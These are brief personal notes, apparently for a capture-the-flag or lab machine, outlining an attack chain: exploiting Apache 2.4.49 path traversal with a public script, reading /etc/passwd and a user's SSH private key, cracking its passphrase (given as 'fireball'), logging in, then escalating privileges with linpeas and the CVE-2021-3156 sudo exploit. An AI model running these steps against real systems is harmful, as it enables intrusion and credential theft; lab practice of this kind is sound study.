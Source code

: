 nmap Apache httpd 2.4.49  ->
searchsploit Apache httpd 2.4.49  ->
multiple/webapps/50383.sh ->
find users i /etc/passwd ->
find sshkey i /home/anita/.ssh/id_ecdsa ->
./50383.sh target /home/anita/.ssh/id_ecdsa > id_ecdsa ->
ssh2john id_ecdsa ->
bruteforce password: fireball
chmod 600 id_ecsda; ssh -i id_ecdsa anita@ip

privesc:
linpeas
se sudo version:
brug sudo-make-me-a-sandwich
(https://github.com/blasty/CVE-2021-3156)